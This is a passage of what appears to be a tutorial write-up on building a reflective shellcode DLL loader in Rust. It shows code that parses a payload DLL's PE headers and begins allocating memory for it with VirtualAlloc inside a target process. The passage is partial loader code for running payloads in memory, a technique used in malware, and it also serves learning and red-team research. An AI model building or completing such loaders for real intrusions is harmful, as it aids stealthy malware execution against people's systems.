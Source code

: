 ```rust

    None
}

#[link_section = ".text"]
unsafe fn get_nt_headers_ptr(module_base_ptr: *mut u8) -> Option<*mut IMAGE_NT_HEADERS64> {
    let dos_header_ptr = module_base_ptr as *mut IMAGE_DOS_HEADER;

    if (*dos_header_ptr).e_magic != IMAGE_DOS_SIGNATURE {
        return None;
    }

    let nt_headers_ptr =
        (module_base_ptr as usize + (*dos_header_ptr).e_lfanew as usize) as *mut IMAGE_NT_HEADERS64;

    if (*nt_headers_ptr).Signature != IMAGE_NT_SIGNATURE {
        return None;
    }

    Some(nt_headers_ptr)
}
```

### Allocating memory

Having successfully 'imported' the necessary functions (and storing their pointers into `far_procs` struct), we proceed to allocate memory for our payload shellcode within the target process. This is done using `VirtualAlloc`, with the allocated memory granted RW permissions.

The payload’s NT Headers contain an `ImageBase` field, indicating the preferred loading address (in which case the imports wouldn't have to be resolved in the later steps). Initially, we can attempt to allocate memory at this address, but if unsuccessfull, we can pass `NULL` as the `lpAddress` parameter to allow `VirtualAlloc` to pick an appropriate location. In the end the specific memory address isn't critical, as the loader will handle any necessary relocations later in the execution process.

The allocation step itself is really simple and only requires the payload size:

```rust
#[link_section = ".text"]
#[no_mangle]
#[allow(clippy::missing_safety_doc)]
pub unsafe extern "system" fn loader(
    payload_dll: *mut c_void,
    function_hash: u32,
    user_data: *mut c_void,
    user_data_len: u32,
    _shellcode_bin: *mut c_void,
    flags: u32,
) {
    // ...

    let module_base_ptr = payload_dll as *mut u8;

    if module_base_ptr.is_null() {
        return;
    }

    let module_dos_header_ptr = module_base_ptr as *mut IMAGE_DOS_HEADER;
    let module_nt_headers_ptr = (module_base_ptr as usize
        + (*module_dos_header_ptr).e_lfanew as usize)
        as *mut IMAGE_NT_HEADERS64;
    let module_img_size = (*module_nt_headers_ptr).OptionalHeader.SizeOfImage as usize;
    let preferred_base_ptr = (*module_nt_headers_ptr).OptionalHeader.ImageBase as *mut c_void;
```